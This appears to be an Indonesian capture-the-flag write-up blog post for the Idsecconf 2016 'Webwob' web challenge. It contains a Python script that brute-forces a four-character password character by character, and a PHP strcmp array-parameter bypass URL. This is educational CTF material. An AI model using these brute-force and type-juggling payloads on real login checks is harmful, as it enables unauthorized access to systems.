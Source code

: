 ```yaml
---
layout: post
title: "Idsecconf CTF 2016 : Webwob - 100"
description: "Idsecconf CTF 2016 Online"
headline: 
modified: 2016-08-29
date: 2016-08-29
category: CTF
tags: [idsecconf,Web Exploitation]
imagefeature: /images/idsecconf.jpg
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

`http://128.199.96.39/`

### Solusi :

Kita di berikan website dengan di tampilkan source code nya dan terlihat jelas flag akan muncul ketika
variable `$ok` bernilai `True`. 

pertama saya mencoba memasukan parameter password 4x seperti ini
`http://128.199.96.39/?password[]=awd&password[]=awd&password[]=awd&password[]=awd`
namun tidak berhasil.

kemudian karena kita mengetahui panjang karakter password hanya 4 maka kita buat script untuk bruteforce

```python
import mechanize
import itertools
import string

br = mechanize.Browser()
url = "http://128.199.96.39/?password={0}{1}{2}{3}"
response = br.open(url)

cnt = 0
pat = "invalid {}Invalid"
acc = string.ascii_letters + "0123456789!@#$%^{}()[]"
combinations = itertools.permutations(acc,cnt+1)
res = ""
a = "x"
b = "x"
c = "x"
d = "x"
bb = "x"
cc = "x"
dd = "x"

while True:
    combinations = itertools.permutations(acc,1)
    for x in combinations:
        x = "".join(x)
        if a == "x":
            aa = x
        elif b == "x":
            bb = x
        elif c == "x":
            cc = x
        elif d == "x":
            dd = x
            
        response = br.open(url.format(aa,bb,cc,dd))
        #print url.format(aa,bb,cc,dd)
        cek = response.read().split("<")[0]
        #sprint cek
        if "flag" in cek:
            print cek
            break
        #print x
        
        if pat.format(cnt+1) in cek:
            cnt += 1
            if a == "x":
                a = x
            elif b == "x":
                b = x
            elif c == "x":
                c = x
            elif d == "x":
                d = x
            #print x
```

![Webwob Flag](/images/webwob_flag.png)

scriptnya agak berantakan disitu tujuan kita untuk dapat flagnya tapi :D

setelah membaca writeup dari [Cyber Security IPB](https://drive.google.com/drive/folders/0B73v7q0VGLSEWlRUbU96YXlsNU0) ternyata cara bypass vulnerability Strcmp di sini adalah seperti ini 
`http://128.199.96.39/?password[][]=&password[][]=&password[][]=&password[][]=`
karena input kita awalnya adalah array karena di dalam script melakukan pengecekan 
berdasarkan tiap index maka jika tiap index yang akan di cek adalah array maka akan
membuahkan hasil True.
